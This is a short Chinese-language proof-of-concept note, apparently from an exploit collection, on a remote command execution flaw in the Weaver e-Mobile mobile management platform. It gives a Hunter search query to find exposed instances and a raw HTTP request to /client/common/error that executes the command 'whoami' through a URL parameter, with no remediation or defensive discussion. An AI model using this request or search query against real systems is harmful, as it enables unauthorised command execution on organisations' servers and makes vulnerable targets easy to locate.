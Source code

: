 # 泛微e-Mobile移动管理平台error存在远程命令执行漏洞

泛微e-Mobile移动管理平台是一款由泛微软件开发的企业移动办公解决方案。它提供了一系列的功能和工具，使企业员工能够通过移动设备随时随地地进行办公和协作。泛微e-Mobile 移动管理平台error在远程命令执行漏洞。

## hunter
```javascript
app.name="泛微 e-Mobile 移动管理平台"
```

## poc
```plain
GET /client/common/error?a=whoami HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1728540551926-c7e783ce-3810-40b8-a311-536332c7ccab.png)

